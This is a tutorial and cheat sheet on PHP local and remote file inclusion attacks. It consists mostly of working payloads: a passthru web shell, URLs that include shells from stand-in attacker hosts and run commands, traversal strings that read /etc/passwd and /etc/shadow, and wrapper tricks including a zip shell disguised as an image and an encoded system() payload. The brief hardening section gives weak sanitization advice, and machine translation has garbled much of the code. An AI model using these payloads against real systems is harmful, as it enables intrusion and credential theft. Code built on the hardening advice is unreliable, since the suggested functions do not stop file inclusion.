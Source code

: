 ```php
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```
- we can have it pointed to what we want.

---

##### exploit would look something like this:
```
http: //localhost/index.php? page = files.php
```



Viewing files on the server is a `“Local File Inclusion”` or LFI exploit. 
- This is no worse than an RFI exploit.

```
http: //localhost/index.php? page = .. / .. / .. / .. / .. / .. / etc / passwd
```

The code will probably return to / etc / passwd. Now let’s look at the RFI aspect of this exploit. Let’s get some of the codes we’ve taken before.

```php
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

Now suppose we write something like …

```
http: //localhost/index.php? page = http: //google.com/
```

##### this would be a little "web shell" you can send commands to the server with
```php
<? Php
passthru ($ _ GET [cmd]);
?>
```

- Now this file is something you can use to your advantage to include it on a page with `RFI exploitation`. The `passthru ()` command in PHP is very evil, and many hosts call it “out of service for security reasons”. With this code in test.php, we can send a request to the web page, `including file inclusion` exploit.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php
```

- When the code makes a `$ _GET` request, we must provide a command to pass to passthru (). We can do something like this.

```
http://localhost/index.php?page=http://someevilhost.com/test.phpcmd=cat/etc/passwd
```

### hardening against RFI
- This unix machine will also extract the file `/ etc / passwd` using the cat command. Now we know how to exploit `RFI` exploit, now we need to know how to hold it and make it impossible for anyone to execute the command, and how to include remote pages on your server. First, we can disable passthru (). But anything on your site can use it again (hopefully not). But this is the only thing you can do. I suggest cleaning the inputs as I said before. Now, instead of just passing variables directly to the page, we can use a few PHP-proposed structures within functions. Initially, `chop()`from perl was adapted to PHP, which `removes whitespaces from an array`. We can use it like this.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = chop ($ _ GET [page]);
include ($ page);
?>
```



- some functions that sanatize input
```php
"filter_input",

"filter_var",

"filter_input_array",

"filter_var_array",

"sanitize",

"htmlentities",

"htmlspecialchars",

"stripslashes",

"esc_html",

"chop",
```

- There are many functions that can clear string. htmlspecialchars () htmlentities (), stripslashes () and more. In terms of confusion, I prefer to use my own functions. We can do a function in PHP that can clear everything for you, here I’ve prepared something easy and quick about this course for you.

```php
<? Php
function cleanAll ($ input) {
$ input = strip_tags ($ input);
$ input = htmlspecialchars ($ input);
return ($ input);
}
?>
```


## RFI / LFI Tricks

#### Basic LFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

Interesting files to check out :

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

#### Basic RFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### LFI / RFI Wrappers :

LFI Wrapper rot13 and base64 - php://filter case insensitive.

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

Can be chained with a compression wrapper.
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

#### LFI Wrapper ZIP :

```
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

#### RFI Wrapper DATA with "" payload :

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

#### RFI Wrapper EXPECT :

```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

#### XSS via RFI/LFI with "" payload :

```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

#### **LFI to RCE via /proc/*/fd :**
1.  Upload a lot of shells (for example: 100)
2.  Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD) with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)